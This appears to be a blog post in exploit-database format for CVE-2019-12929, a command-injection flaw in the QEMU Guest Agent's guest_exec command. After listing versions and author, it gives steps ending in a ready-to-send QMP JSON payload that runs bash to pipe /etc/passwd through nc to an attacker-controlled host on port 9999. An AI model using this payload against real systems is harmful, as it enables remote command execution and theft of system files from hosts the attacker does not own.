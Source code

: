 ```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Command Execution"
comments: true
description: "QEMU Guest Agent guest_exec Command Execution"
keywords: "qemu, qemu-ga, guest_exec, command execution"
---
```


Exploit Title: QEMU Guest Agent guest_exec Command Execution<br>
Date: 2019-06-06<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.qemu.org/<br>
Software Link: https://www.qemu.org/download/<br>
Version: 4.0.0 and earlier<br>
Tested on: 4.0.0<br>
CVE: CVE-2019-12929<br>

The QMP `guest_exec` command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:

```
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
```